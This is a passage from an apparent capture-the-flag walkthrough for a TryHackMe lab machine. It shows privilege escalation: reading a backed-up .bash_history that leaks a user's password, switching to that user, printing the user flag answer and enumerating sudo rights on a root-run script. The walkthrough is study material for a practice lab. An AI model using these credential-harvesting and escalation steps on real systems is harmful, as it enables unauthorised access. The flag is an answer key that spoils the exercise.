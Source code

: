 Unfortunately there are none. We’ll need to keep exploring. Under the /var/backups directory there is a directory named mike_home_backup which is readable. It doesn’t contain the user flag, but if we go a little deeper into the `documents` directory there is an `accounts.txt` that contain credentials for mike’s Spotify, Netflix, and TryHackMe accounts. It turns out mike is smart enough not to reuse passwords, as none of these will get us into his account on this box.

However, if we go back to the backup directory we’ll find his `.bash_history` is readable and leaks his password. And with that we can grab the user flag!
```bash
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lREDACTED
clear
sudo -l
exit
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password: 
mike@gallery:/var/backups/mike_home_backup$ id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
mike@gallery:/var/backups/mike_home_backup$ wc -c ~/user.txt
32 /home/mike/user.txt
```
**Answer:**	THM{af05cd30bfed67849befd546ef}

**Question 5:** What's the root flag?
**Walkthrough:** We already know mike must have some sudo privileges so let’s check what they are.
```bash
mike@gallery:/var/backups/mike_home_backup$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

So we can execute this `/opt/rootkit.sh` with root privileges. It is also readable so let’s take a peek.
```bash
mike@gallery:/var/backups/mike_home_backup$ cd /opt
mike@gallery:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 May 22  2021 .
drwxr-xr-x 23 root root 4096 Feb 12 21:42 ..
-rw-r--r--  1 root root  364 May 20  2021 rootkit.sh
mike@gallery:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
```